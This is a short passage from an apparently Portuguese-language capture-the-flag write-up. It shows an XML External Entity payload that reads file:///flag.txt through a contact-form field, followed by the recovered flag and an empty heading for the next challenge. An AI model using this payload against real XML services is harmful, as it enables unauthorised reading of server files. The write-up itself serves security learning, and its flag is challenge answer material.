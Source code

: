 Exploração:

<img src="images/Pasted image 20230827122342.png">

Payload usado:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///flag.txt"> ]>
<contact><first_name>&ent;</first_name><last_name>test</last_name><email>test@gmail.com</email><message>testando</message></contact>
```

Flag: ALQ{XML_3xt3rn4L_3nt1ty_Att4ck_}

## Mico (100)
### Descrição

### Solução detalhada
